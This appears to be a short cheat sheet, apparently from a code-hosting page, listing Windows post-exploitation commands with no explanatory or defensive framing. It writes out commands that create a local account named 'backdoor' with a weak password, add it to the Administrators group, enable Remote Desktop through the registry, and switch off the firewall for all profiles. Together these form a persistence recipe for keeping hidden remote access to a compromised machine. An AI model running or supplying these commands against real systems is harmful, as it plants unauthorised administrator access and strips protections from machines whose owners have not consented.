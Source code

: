 # Add new user
```shell
net user /add backdoor Password1
```

# Add new user to Administrators group
```shell
net localgroup administrators /add backdoor
```

# Enable RDP using registry
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

# Turn off firewall
```shell
netsh advfirewall set allprofiles state off
```